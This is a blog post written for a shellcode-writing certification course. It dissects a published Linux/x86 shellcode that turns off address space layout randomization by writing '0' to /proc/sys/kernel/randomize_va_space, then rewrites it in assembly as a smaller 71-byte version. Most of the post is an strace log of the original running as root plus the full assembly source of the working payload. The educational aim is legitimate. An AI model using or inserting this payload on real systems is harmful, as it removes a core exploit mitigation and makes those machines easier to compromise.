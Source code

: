 ```yaml
---
layout: post
title: "Linux/x86 - Disable ASLR Shellcode (71 bytes)"
date: 2017-05-07 12:00:00
share: true
comments: true
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 6.1_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---

**_Note_: A modified version has been published in exploit-db:[ https://www.exploit-db.com/exploits/41969/](https://www.exploit-db.com/exploits/41969/) (calls setruid first)**  
  
In assignment 6, the requirement is polymorphing 3+ shellcodes off shellstorm.org or exploit-db.com_, _which basically means modifying the code so it doesn't look like the original yet has the same functionality. This is the first post out of three.  
  
  

## Linux/x86 - Disable ASLR Shellcode (71 bytes)

First shellcode I will dissect is a disable ASLR one by Mohammad Reza Ramezani, shellcode can be found [here](https://www.exploit-db.com/exploits/36637/).  
  
Let's compile this code and instead of debugging it, we'll use strace tool  

```console
abatchy@ubuntu:~/Desktop/workspace$ gcc 36637.c -fno-stack-protector -z execstack -o 36637.out  
abatchy@ubuntu:~/Desktop/workspace$ sudo su  
root@ubuntu:/home/abatchy/Desktop/workspace# strace ./36637.out   
execve("./36637.out", ["./36637.out"], [/* 26 vars */]) = 0  
brk(0)                                  = 0x804b000  
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)  
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fd8000  
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)  
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3  
fstat64(3, {st_mode=S_IFREG|0644, st_size=79136, ...}) = 0  
mmap2(NULL, 79136, PROT_READ, MAP_PRIVATE, 3, 0) = 0xb7fc4000  
close(3)                                = 0  
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)  
open("/lib/i386-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3  
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0P\234\1\0004\0\0\0"..., 512) = 512  
fstat64(3, {st_mode=S_IFREG|0755, st_size=1763068, ...}) = 0  
mmap2(NULL, 1768060, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xb7e14000  
mmap2(0xb7fbe000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1aa000) = 0xb7fbe000  
mmap2(0xb7fc1000, 10876, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xb7fc1000  
close(3)                                = 0  
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7e13000  
set_thread_area({entry_number:-1 -> 6, base_addr:0xb7e13940, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0  
mprotect(0xb7fbe000, 8192, PROT_READ)   = 0  
mprotect(0x8049000, 4096, PROT_READ)    = 0  
mprotect(0xb7ffe000, 4096, PROT_READ)   = 0  
munmap(0xb7fc4000, 79136)               = 0  
**open("/proc/sys/kernel/randomize_va_space", O_RDWR) = 3  
write(3, "0\n", 2)                      = 2  
_exit(0)                                = ?**  
+++ exited with 0 +++  
```
**_Note_: DO NOT run code directly without investigating it first and making sure
it's totally safe (I did).  
  
So 3 calls are what matter to us:  
  
1. `open("/proc/sys/kernel/randomize_va_space", O_RDWR)`  
2. `write(3, "0\n", 2)`
3. `exit(0)`  
  
There seem to be room for improvement, so let's see if we can make this code significantly smaller.  

## 1\. `open("/proc/sys/kernel/randomize_va_space", O_RDWR)`

  
Minor refactoring:
```nasm
xor eax,eax  
jmp filename  
shellcode:  
pop ebx         ; EBX now points to '/proc/sys/kernel/randomize_va_spaceX'  
mov byte [ebx + 35],al  
push byte 5  
pop eax  
push byte 2  
pop ecx  
int 80h  
```    

We don't need `O_RDWR` permissions, but I tried making use of that with no avail.  
  

## 2\. `write(fd, "0\n", 2)`

  
1\. `mov ebx, eax`: Since we don't care about EAX, `xchg eax,ebx` is one byte less.  
  
2\. `push byte 2 - pop edx`: ECX already contains 2, let's exchange them instead.  
  
3\. `jmp-call-pop`: Got rid of it and replaced it with a push '0'.  
  
```nasm
xchg eax, ebx   ; One byte less than mov ebx, eax  
push byte 4  
pop eax  
xchg ecx, edx   ; ECX already contains 2  
push byte 0x30  
mov ecx, esp    ; ECX now points to "0"  
int 80h         ; EAX will now contains 1  
```

## 3\. `exit(0)`

Is it a big deal exiting with non-zero status? Not really, so let's not nullify EBX (it currently contains the file descriptor).  
  
Can we do better? Yes! `write()` returns number of bytes written, which should be 1 (we only wrote "0"), so we can exit directly!  

```nasm
int 80h         ; Yep, that's it  
```

## Final shellcode

```nasm
section .text  
global _start  
  
_start:  
  
;  
; open("/proc/sys/kernel/randomize_va_spaceX", O_RDWR)  
;  
xor eax,eax  
jmp aslr_file  
shellcode:  
pop ebx         ; EBX now points to '/proc/sys/kernel/randomize_va_spaceX'  
mov byte [ebx + 35],al  
push byte 5  
pop eax  
push byte 2  
pop ecx  
int 80h  
  
;  
; write(fd, '0', 1)  
;  
xchg eax, ebx   ; One byte less than mov ebx, eax  
push byte 4  
pop eax  
xchg ecx, edx   ; ECX already contains 2  
push byte 0x30  
mov ecx, esp    ; ECX now points to "0"  
int 80h         ; EAX will now contains 1  
  
;  
; exit(0)  
;  
int 80h         ; Yep, that's it  
  
aslr_file:  
call shellcode  ; Skips the filename and avoids using JMP  
db '/proc/sys/kernel/randomize_va_spaceX'  
``` 

Shellcode size has been cut down to 71 bytes (13 bytes less than original code).  
  
\- Abatchy

